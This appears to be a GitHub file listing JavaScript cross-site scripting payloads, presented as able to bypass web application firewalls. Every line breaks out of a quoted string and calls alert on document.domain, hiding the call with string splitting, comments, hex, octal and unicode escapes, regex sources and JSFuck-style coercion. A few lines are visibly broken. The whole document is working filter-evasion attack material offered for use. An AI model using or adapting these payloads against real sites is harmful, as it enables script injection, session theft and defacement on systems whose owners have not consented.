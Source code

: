 ###THESE PAYLOADS WOULD BYPASS A WEB APPLICATION FIREWALL WHICH PREVENTS A JAVASCRIPT EXCUTION:

';window['ale'+'rt'](window['doc'+'ument']['dom'+'ain']);//

';self['ale'+'rt'](self['doc'+'ument']['dom'+'ain']);//

';this['ale'+'rt'](this['doc'+'ument']['dom'+'ain']);//

';top['ale'+'rt'](top['doc'+'ument']['dom'+'ain']);//

';parent['ale'+'rt'](parent['doc'+'ument']['dom'+'ain']);//

';frames['ale'+'rt'](frames['doc'+'ument']['dom'+'ain']);//

';globalThis['ale'+'rt'](globalThis['doc'+'ument']['dom'+'ain']);//

';window[/*foo*/'alert'/*bar*/](window[/*foo*/'document'/*bar*/]['domain']);//

';self[/*foo*/'alert'/*bar*/](self[/*foo*/'document'/*bar*/]['domain']);//

';this[/*foo*/'alert'/*bar*/](this[/*foo*/'document'/*bar*/]['domain']);//

';top[/*foo*/'alert'/*bar*/](top[/*foo*/'document'/*bar*/]['domain']);//

';parent[/*foo*/'alert'/*bar*/](parent[/*foo*/'document'/*bar*/]['domain']);//

';frames[/*foo*/'alert'/*bar*/](frames[/*foo*/'document'/*bar*/]['domain']);//

';globalThis[/*foo*/'alert'/*bar*/](globalThis[/*foo*/'document'/*bar*/]['domain']);//

';window['\x61\x6c\x65\x72\x74'](window['\x64\x6f\x63\x75\x6d\x65\x6e\x74']['\x64\x6f\x6d\x61\x69\x6e']);//

';self['\x61\x6c\x65\x72\x74'](self['\x64\x6f\x63\x75\x6d\x65\x6e\x74']['\x64\x6f\x6d\x61\x69\x6e']);//

';this['\x61\x6c\x65\x72\x74'](this['\x64\x6f\x63\x75\x6d\x65\x6e\x74']['\x64\x6f\x6d\x61\x69\x6e']);//

';top['\x61\x6c\x65\x72\x74'](top['\x64\x6f\x63\x75\x6d\x65\x6e\x74']['\x64\x6f\x6d\x61\x69\x6e']);//

';parent['\x61\x6c\x65\x72\x74'](parent['\x64\x6f\x63\x75\x6d\x65\x6e\x74']['\x64\x6f\x6d\x61\x69\x6e']);//

';frames['\x61\x6c\x65\x72\x74'](frames['\x64\x6f\x63\x75\x6d\x65\x6e\x74']['\x64\x6f\x6d\x61\x69\x6e']);//

';globalThis['\x61\x6c\x65\x72\x74']

;globalThis[ \x61\x6c\x65\x72\x74 ](globalThis['\x64\x6f\x63\x75\x6d\x65\x6e\x74']['\x64\x6f\x6d\x61\x69\x6e']);//

';window['\x65\x76\x61\x6c']('window["\x61\x6c\x65\x72\x74"](window["\x61\x74\x6f\x62"]("WFNT"))');//

';self['\x65\x76\x61\x6c']('self["\x61\x6c\x65\x72\x74"](self["\x61\x74\x6f\x62"]("WFNT"))');//

';this['\x65\x76\x61\x6c']('this["\x61\x6c\x65\x72\x74"](this["\x61\x74\x6f\x62"]("WFNT"))');//

';top['\x65\x76\x61\x6c']('top["\x61\x6c\x65\x72\x74"](top["\x61\x74\x6f\x62"]("WFNT"))');//

';parent['\x65\x76\x61\x6c']('parent["\x61\x6c\x65\x72\x74"](parent["\x61\x74\x6f\x62"]("WFNT"))');//

';frames['\x65\x76\x61\x6c']('frames["\x61\x6c\x65\x72\x74"](frames["\x61\x74\x6f\x62"]("WFNT"))');//

';globalThis['\x65\x76\x61\x6c']('globalThis["\x61\x6c\x65\x72\x74"](globalThis["\x61\x74\x6f\x62"]("WFNT"))');//

';window['\141\154\145\162\164']('\130\123\123');//

';self['\141\154\145\162\164']('\130\123\123');//

';this['\141\154\145\162\164']('\130\123\123');//

';top['\141\154\145\162\164']('\130\123\123');//

';parent['\141\154\145\162\164']('\130\123\123');//

';frames['\141\154\145\162\164']('\130\123\123');//

';globalThis['\141\154\145\162\164']('\130\123\123');//

';window['\u{0061}\u{006c}\u{0065}\u{0072}\u{0074}']('\u{0058}\u{0053}\u{0053}');//

';self['\u{0061}\u{006c}\u{0065}\u{0072}\u{0074}']('\u{0058}\u{0053}\u{0053}');//

';this['\u{0061}\u{006c}\u{0065}\u{0072}\u{0074}']('\u{0058}\u{0053}\u{0053}');//

';top['\u{0061}\u{006c}\u{0065}\u{0072}\u{0074}']('\u{0058}\u{0053}\u{0053}');//

';parent['\u{0061}\u{006c}\u{0065}\u{0072}\u{0074}']('\u{0058}\u{0053}\u{0053}');//

';frames['\u{0061}\u{006c}\u{0065}\u{0072}\u{0074}']('\u{0058}\u{0053}\u{0053}');//

';globalThis['\u{0061}\u{006c}\u{0065}\u{0072}\u{0074}']('\u{0058}\u{0053}\u{0053}');//(globalThis) ( \u{0058}\u{0053}\u{0053} );//

';window[/al/.source+/ert/.source](/XSS/.source);//

';self[/al/.source+/ert/.source](/XSS/.source);//

';this[/al/.source+/ert/.source](/XSS/.source);//

';top[/al/.source+/ert/.source](/XSS/.source);//

';parent[/al/.source+/ert/.source](/XSS/.source);//

';frames[/al/.source+/ert/.source](/XSS/.source);//

';globalThis[/al/.source+/ert/.source](/XSS/.source);//

';window[(+{}+[])[+!![]]+(![]+[])[!+[]+!![]]+([][[]]+[])[!+[]+!![]+!![]]+(!![]+[])[+!![]]+(!![]+[])[+[]]]((+{}+[])[+!![]]);//

';self[(+{}+[])[+!![]]+(![]+[])[!+[]+!![]]+([][[]]+[])[!+[]+!![]+!![]]+(!![]+[])[+!![]]+(!![]+[])[+[]]]((+{}+[])[+!![]]);//

';this[(+{}+[])[+!![]]+(![]+[])[!+[]+!![]]+([][[]]+[])[!+[]+!![]+!![]]+(!![]+[])[+!![]]+(!![]+[])[+[]]]((+{}+[])[+!![]]);//

';top[(+{}+[])[+!![]]+(![]+[])[!+[]+!![]]+([][[]]+[])[!+[]+!![]+!![]]+(!![]+[])[+!![]]+(!![]+[])[+[]]]((+{}+[])[+!![]]);//

';parent[(+{}+[])[+!![]]+(![]+[])[!+[]+!![]]+([][[]]+[])[!+[]+!![]+!![]]+(!![]+[])[+!![]]+(!![]+[])[+[]]]((+{}+[])[+!![]]);//

';frames[(+{}+[])[+!![]]+(![]+[])[!+[]+!![]]+([][[]]+[])[!+[]+!![]+!![]]+(!![]+[])[+!![]]+(!![]+[])[+[]]]((+{}+[])[+!![]]);//

';globalThis[(+{}+[])[+!![]]+(![]+[])[!+[]+!![]]+([][[]]+[])[!+[]+!![]+!![]]+(!![]+[])[+!![]]+(!![]+[])[+[]]]((+{}+[])[+!![]]);//